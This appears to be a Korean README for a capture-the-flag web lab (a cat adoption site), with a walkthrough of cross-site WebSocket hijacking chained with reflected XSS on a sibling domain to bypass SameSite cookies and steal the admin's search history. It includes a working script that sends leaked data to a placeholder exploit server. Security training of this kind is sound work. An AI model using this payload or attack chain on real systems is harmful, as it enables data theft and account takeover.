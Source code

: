 # Cat-Distribution-System
To adopt kitties ₍^. .^₎⟆
<br><br>

## 페이지 구성
- home 페이지에서 입양할 고양이 확인 가능(고양이 클릭하면 세부정보 알 수 있음)
- 우상단에 Login 클릭 시 로그인 페이지로 연결
- Search 기능이 있음 (취약점 있는 부분)
- 전체 Search History를 반환하는 기능 구현
<br>

## 문제 풀이 시나리오
### 1. 검색 기능 분석
- 무언가를 검색하면 검색 기록도 반환됨
- 검색 기록은 유저 아이디에 따라 반환
- 개발자 툴을 통해 살펴보면 웹 소켓 핸드셰이크를 찾을 수 있음
- 요청에 예측 불가능한 토큰이 없기 때문에 CSWSH 취약점의 가능성 확인 가능
- 페이지 새로고침 시 클라이언트가 READY 메시지를 서버에 보내고 서버는 검색 기록으로 응답
### 2. CSWSH 취약점 확인
- search.js에서 코드 확인하고
- 공격 스크립트 작성해 익스플로잇 서버 통해 보내기
- 스크립트 실행 시 새 웹소켓 연결이 생성되고 검색 기록이 유출됨
    <script>
        let newWebSocket = new WebSocket("ws://localhost:5000/search");
        newWebSocket.onopen = function () {
            newWebSocket.send("READY");
        };

        newWebSocket.onmessage = function (event) {
        var message = event.data;
        fetch(
            "{익스플로잇서버주소}message?=" + btoa(message) //base64인코딩
        );
        };
    </script>
- 하지만 세션 쿠키가 포함되지 않기 때문에 새 세션의 검색 기록만 얻을 수 있음
- 확인해보면 서버가 SameSite=Strict이기 때문에 크로스사이트 요청에 쿠키를 보내지 않음을 확인할 수 있음
### 3. sibling domain에서 추가 취약점 발견
- Access-Control-Allow-Origin 을 통해 sibling domain 있는 것 확인
- 해당 페이지에 접속해보면 로그인 폼을 확인할 수 있음
- username 파라미터가 응답에 반영되는 reflected XSS 취약점이 있는 것을 확인할 수 있음
- POST 요청을 GET으로 변환해도 XSS가 동작하여 URL로 직접 공격 코드 삽입 가능
- sibling 도메인이 같은 사이트로 간주되어 SameSite 쿠키 제한 우회에 이용 가능
### 5. sibling domain을 통해 SameSite restriction 우회
- 기존 CSWSH 스크립트를 URL 인코딩하여 username 파라미터에 삽입
- 익스플로잇 서버에 그 url로 리다이렉트하는 스크립트 생성
    => 전체 검색 기록이 유출됨
### 6. 전송된 메시지 분석해서 admin 정보 획득
- 로그인 하면 성공
